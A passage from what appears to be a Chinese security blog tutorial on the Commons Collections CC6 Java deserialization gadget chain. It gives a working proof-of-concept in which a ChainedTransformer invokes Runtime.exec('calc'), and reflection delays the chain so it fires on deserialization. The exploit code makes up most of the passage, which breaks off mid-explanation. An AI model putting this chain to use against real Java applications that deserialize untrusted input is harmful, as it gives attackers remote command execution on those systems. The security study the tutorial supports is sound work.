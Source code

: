 此时可以弹计算器，但是计算器是在`hashMap.put(tiedMapEntry, 1);`这步（序列化之前）时，就把利用链调完了，所以参考URLDNS利用链

[11111]: https://blog.csdn.net/weixin_45436292/article/details/140068299?spm=1001.2014.3001.5501

的解决办法。

因为是在put处触发的，所以我们在写完利用链之后，调用put之前，通过反射把利用链断掉。

在put方法调用之后，序列化之前，再把修改的位置复原。

更新Poc

```java
public class cc6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
        //断掉利用链 TiedMapEntry, LazyMap, ChainedTransformer都可以
        //举个例子修改tiedMapEntry的 key
        TiedMapEntry tiedMapEntry = new TiedMapEntry(new HashMap(), 1);

        HashMap<Object, Object> hashMap = new HashMap<>();

        hashMap.put(tiedMapEntry, 1);

        //复原
        //因为key为private，而且也没有public方法能直接修改key
        //利用反射
        Class c = TiedMapEntry.class;
        Field key = c.getDeclaredField("key");
        key.setAccessible(true);
        key.set(tiedMapEntry, lazyMap);

        cc1_poc.serialize(hashMap);
        cc1_poc.unserialize("s.ser");
    }
}
```

# 补充

如果在断掉利用链时选择修改LazyMap，会发现反序列化也不会触发计算器，是因为put过程中

走到LazyMap.get这，if表达式为真，会执行到map.put(key, value);
